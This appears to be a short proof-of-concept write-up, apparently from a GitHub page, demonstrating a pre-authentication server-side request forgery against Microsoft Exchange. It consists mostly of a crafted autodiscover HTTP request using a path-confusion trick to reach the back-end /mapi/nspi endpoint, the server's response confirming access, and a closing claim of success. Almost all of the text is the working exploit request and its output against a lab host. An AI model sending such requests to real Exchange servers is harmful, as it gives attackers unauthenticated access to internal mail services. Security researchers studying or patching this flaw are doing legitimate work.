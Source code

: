 
The Fatal erase: 

```text
GET /autodiscover/autodiscover.json?@test.com/mapi/nspi?&Email=autodiscover/autodiscover.json%3F@test.com HTTP/2
Host: exchange.local
Cookie: cookieTest=1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Cache-Control: max-age=0
Te: trailers
```

```text
HTTP/2 200 OK
Cache-Control: private
Content-Type: text/html
Vary: Accept-Encoding
Server: Microsoft-IIS/10.0
Request-Id: 505bae40-9e29-4c22-9bb6-68686012d721
X-Calculatedbetarget: win-mkl80dild4h.exchange.local
X-Serverapplication: Exchange/15.01.2176.009
X-Diaginfo: WIN-MKL80DILD4H
X-Beserver: WIN-MKL80DILD4H
X-Aspnet-Version: 4.0.30319
Set-Cookie: X-BackEndCookie=; expires=Thu, 15-Aug-1991 03:08:59 GMT; path=/autodiscover; secure; HttpOnly
X-Powered-By: ASP.NET
X-Feserver: WIN-MKL80DILD4H
Date: Sun, 15 Aug 2021 03:08:58 GMT
Content-Length: 553

<html>
<head>
<title>Exchange MAPI/HTTP Connectivity Endpoint</title>
</head>
<body>
<p>Exchange MAPI/HTTP Connectivity Endpoint<br><br>Version: 15.1.2176.9<br>Vdir Path: /mapi/nspi/<br><br></p><p>
```

<img width="1146" alt="image" src="https://user-images.githubusercontent.com/37280106/129546779-695fca9d-dd4c-47d2-a498-5feb214f5df5.png">

We archieved the Pre-auth SSRF, direct access to Exchange Server back-end !!!

